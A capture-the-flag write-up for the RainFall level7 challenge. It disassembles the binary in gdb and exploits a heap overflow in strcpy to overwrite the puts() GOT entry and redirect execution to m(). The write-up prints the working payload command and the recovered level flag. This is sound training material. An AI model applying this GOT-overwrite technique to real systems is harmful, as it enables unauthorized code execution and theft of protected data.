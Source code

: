 # Level 7

- Once logged in, you will see a binary `level7`

```
[???]$ ssh localhost -p 4242 -l level7
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level7@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
level7@RainFall:~$ ls
level7
```

let's run this and see what this does

```
level7@RainFall:~$ ls
level7
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
level7@RainFall:~$
```

It gives segfault, and we want to avoid having it, so let's take a look at the binary

```
level7@RainFall:~$ gdb ./level7
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   ebp
   0x08048522 <+1>:	mov    ebp,esp
   0x08048524 <+3>:	and    esp,0xfffffff0
   0x08048527 <+6>:	sub    esp,0x20
   0x0804852a <+9>:	mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    edx,eax
   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]		; set eax to [esp+0x1c]
   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx		; set eax+0x4 to edx
   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>		; malloc (esp = 8)
   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax		; return value of malloc allocated to [esp+0x18]
   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]		; eax = [esp+0x18]
   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2			; eax = 2;
   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>		; malloc(esp = 8);
   0x0804857f <+94>:	mov    edx,eax						; return value of eax to edx;
   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:	add    eax,0x4
   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]			; eax = 4
   0x08048590 <+111>:	mov    edx,eax
   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]		; eax = a[1]
   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:	add    eax,0x8
   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:	mov    edx,eax
   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    edx,0x80486e9
   0x080485c7 <+166>:	mov    eax,0x80486eb
   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    eax,0x0
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
gdb-peda$
```

By analiyzing the main function, the main funciton takes arguments(`argv`) from `stdin`, takes and allocates into two local variables. Afterwards, the function `fgets` with arguments will be called and stores the value into the global variable `c(0x08049960)`, and the string `~~` will be printed out.

But the goal is to get the flag, and the program doesn't seem to print out flags in any point without exploiting them.

```
level7@RainFall:~$ ./level7 aaaa bbbb
~~
level7@RainFall:~$
```

let's see if there is any other function declared.

```
gdb-peda$ info functions
All defined functions:
[...]
0x080484f4  m
0x08048521  main
[...]
```

the funciton `m` is here, so let's see the assembly

```
gdb-peda$ disass m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	sub    esp,0x18
   0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    edx,0x80486e0
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```

By decompiling the assembly, the function calls out `time`, and prints out the value from given parameters.

During the first call to strcpy(), we can overwrite the address used as destination for the second strcpy() (b[1]) => we want to overwrite function puts() GOT address to call function m() instead.

In order to do, it is necessary to find out the offset.

By using [Buffer Overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), it is easy to find the offset.

By using the 'pattern generator', the offset is 20

```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

During the first call to strcpy(), we can overwrite the address used as destination for the second strcpy() (b[1]) => we want to overwrite function puts() GOT address to call function m() instead. We need to find the puts() GOT entry (the pointer to overwrite) :

[What is GOT?](https://www.linkedin.com/pulse/elf-linux-executable-plt-got-tables-mohammad-alhyari#:~:text=PLT%20and%20GOT%20are%20part,is%20used%20for%20linux%20executable.&text=Programming%20starts%20with%20having%20a,source%20code%20in%20a%20file.)
- Global Offset Table is a writable memory that is used to store pointers to the functions resolved. Once the dynamic linker resolves a function then it will update GOT to have that entry read for usage.

In short, instead of calling `puts`, we want to call `m`. The address for `puts` is stored on GOP, and we replace them.

the address for `puts` can be easily found on gdb, anc can be checked by using ltrace
```
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
gdb-peda$ disass puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') AAAA
__libc_start_main(0x8048521, 3, 0xbffff774, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b") = 0x0804a018
strcpy(0x08049928, "AAAA")                = 0x08049928
fopen("/home/user/level8/.pass", "r")     = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

as found out above, the address for function `m()` is `0x080484f4`, so the payload needs to be set up as below:

```
    padding (20 bytes) + GOT address (4 bytes)   +   m() function address (4 bytes)
                     1st arg                                   2nd arg
```

the output is just set as `%s - %c`
```
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1654670080
level7@RainFall:~$
```
